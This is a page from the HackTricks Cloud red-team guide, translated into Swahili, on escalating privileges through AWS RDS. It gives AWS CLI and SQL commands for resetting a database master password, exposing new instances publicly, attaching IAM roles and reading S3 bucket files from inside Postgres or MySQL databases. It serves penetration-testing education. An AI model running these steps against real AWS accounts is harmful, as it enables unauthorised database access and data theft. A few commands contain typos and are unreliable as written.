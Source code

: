 # AWS - RDS Privesc

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relational Database Service

Kwa maelezo zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Kwa ruhusa hiyo mshambuliaji anaweza **kubadilisha nenosiri la mtumiaji mkuu**, na kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Utahitaji kuwa na uwezo wa **kuwasiliana na database** (kawaida zinapatikana tu kutoka ndani ya mitandao).
{% endhint %}

**Athari Zingine:** Pata taarifa nyeti ndani ya databases.

### rds-db:connect

Kulingana na [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye ruhusa hii anaweza kuungana na DB instance.

### Kudhalilisha RDS Role IAM ruhusa

#### Postgresql (Aurora)

{% hint style="success" %}
Ikiwa unaendesha **`SELECT datname FROM pg_database;`** na unapata database inayoitwa **`rdsadmin`** unajua uko ndani ya **AWS postgresql database**.
{% endhint %}

Kwanza unaweza kuangalia kama database hii imetumika kufikia huduma nyingine yoyote ya AWS. Unaweza kuangalia hili kwa kuangalia extensions zilizowekwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa utapata kitu kama **`aws_s3`** unaweza kudhani kuwa hifadhidata hii ina **aina fulani ya ufikiaji juu ya S3** (kuna viendelezi vingine kama **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa za kuendesha **`aws rds describe-db-clusters`** unaweza kuona pale kama **klasta ina IAM Role yoyote iliyounganishwa** katika sehemu ya **`AssociatedRoles`**. Ikiwa ipo, unaweza kudhani kuwa hifadhidata ilitayarishwa **kupata huduma zingine za AWS**. Kulingana na **jina la role** (au ikiwa unaweza kupata **ruhusa** za role) unaweza **kudhani** ni ufikiaji gani wa ziada hifadhidata inayo.

Sasa, ili **kusoma faili ndani ya ndoo** unahitaji kujua njia kamili. Unaweza kuisoma na:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ulikuwa na **raw AWS credentials** ungeweza pia kuzitumia kufikia data za S3 na:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **haitaji kubadilisha kigezo chochote cha kundi** ili kuweza kufikia S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Ndani ya mysql, ukikimbia swali **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.
{% endhint %}

Ndani ya mysql kimbia **`show variables;`** na kama vigezo kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, vina thamani, unaweza kudhani database imeandaliwa kufikia data za S3.

Pia, kama una ruhusa za kukimbia **`aws rds describe-db-clusters`** unaweza kuangalia kama cluster ina **associated role**, ambayo kawaida inamaanisha kufikia huduma za AWS).

Sasa, ili **kusoma faili ndani ya bucket** unahitaji kujua njia kamili. Unaweza kuisoma na:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa za `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu maalum kwenye RDS instance iliyopo**. Hii inaweza kumruhusu mshambuliaji **kupata data nyeti** au kubadilisha data ndani ya instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potential Impact**: Upatikanaji wa data nyeti au marekebisho yasiyoidhinishwa ya data katika RDS instance.\
Kumbuka kuwa baadhi ya DBs zinahitaji mipangilio ya ziada kama Mysql, ambayo inahitaji kubainisha role ARN katika aprameter groups pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii tu, mshambuliaji anaweza kuunda **instance mpya ndani ya cluster** ambayo tayari ipo na ina **IAM role** iliyounganishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kufichua instance mpya ya database kwa mtandao:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Mshambuliaji mwenye ruhusa za `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda RDS instance mpya na jukumu maalum lililounganishwa**. Mshambuliaji anaweza kisha **kupata data nyeti** au kubadilisha data ndani ya instance.

{% hint style="warning" %}
Baadhi ya mahitaji ya jukumu/instance-profile ya kuunganisha (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profaili lazima iwepo kwenye akaunti yako.
* Profaili lazima iwe na jukumu la IAM ambalo Amazon EC2 ina ruhusa za kuchukua.
* Jina la instance profile na jina la jukumu la IAM linalohusiana lazima lianze na kiambishi `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potential Impact**: Upatikanaji wa data nyeti au marekebisho yasiyoidhinishwa ya data katika RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa za `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu maalum kwenye RDS instance iliyopo**. Hii inaweza kumruhusu mshambuliaji **kupata data nyeti** au kurekebisha data ndani ya instance.

{% hint style="warning" %}
DB instance lazima iwe nje ya cluster kwa hili
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potential Impact**: Upatikanaji wa data nyeti au marekebisho yasiyoidhinishwa ya data katika RDS instance.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

